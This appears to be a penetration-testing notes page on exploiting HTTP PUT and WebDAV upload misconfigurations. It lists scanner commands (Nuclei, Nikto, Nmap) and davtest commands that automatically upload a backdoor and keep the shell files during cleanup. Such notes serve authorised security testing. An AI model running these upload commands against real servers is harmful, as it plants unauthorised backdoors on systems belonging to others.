 # PUT Upload

## 01 - Nuclei

Find a misconfiguration HTTP option to upload files.

```
$ nuclei -u <URL> -t ~/nuclei-templates -id put-method-enabled
```

## 02 - Nikto

```
$ nikto -host <URL> -Plugins put_del_test
```

## 03 - Network Mapper

```
$ nmap -p 80,443,8000,8080,8443 -Pn -n --script http-webdav-scan --script-args http-methods.url-path=/path/to/url <IP>
```

## 04 - Davtest

Upload backdoor automatically in each test.

```
$ davtest [-auth user:password] -sendbd auto -url http[s]://<IP>
```

Choose method to upload file for the executable file extension.

```
$ davtest [-auth user:password] -copy -sendbd auto -url http[s]://<IP>

$ davtest [-auth user:password] -move -sendbd auto -url http[s]://<IP>
```

Delete everything uploaded except for backdoor/shell files.

```
$ davtest -cleanup -url http[s]://<IP>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/01 - Scanners/Web Vulnerability Scanner/Nikto/Usage/02 - Basic|Nikto]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Cross Platform/HTTP/04 - WebDAV/Scanners|Active Fingerprinting: WebDAV]]

### Github

- [Davtest](https://github.com/cldrn/davtest)

### Hacktricks

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav)

### Arridae

- [Arridae: Exploiting HTTP PUT method](https://www.arridae.com/blogs/HTTP-PUT-method.php)